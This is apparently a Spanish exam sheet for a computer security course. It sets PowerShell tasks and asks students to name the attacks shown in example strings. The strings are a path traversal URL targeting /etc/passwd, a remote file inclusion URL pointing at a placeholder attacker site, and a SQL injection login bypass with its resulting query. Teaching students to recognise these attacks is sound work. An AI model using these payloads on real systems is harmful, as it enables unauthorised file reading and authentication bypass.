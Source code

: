 # Examen de la segunda evaluación
- Resuelve en PowerShell lo siguiente:
  - Dime si hay un antivirus instalado
  - Cómo compruebas que están funcionando los equipos de una red
  - Realiza un programa que cifre de forma sencilla
  - Simula la recuperación de un dato que se ha perdido
  - Sabes detectar impresoras en la red?, cómo?
  - Realiza un login que incorpore una función de hash
  - Realizar un sistema de copia de seguridad
  - Ver si un programa se está ejecutando viendo el nombre del producto
- ¿Cómo se llama esto?
  - http://vulnerable_host/preview.php?file=../../../../etc/passwd
  - http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
- ¿Y esto?
  - http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 
  - SELECT * FROM Users WHERE Username='1'OR '1'= '1'AND Password='1'OR '1'= '1'
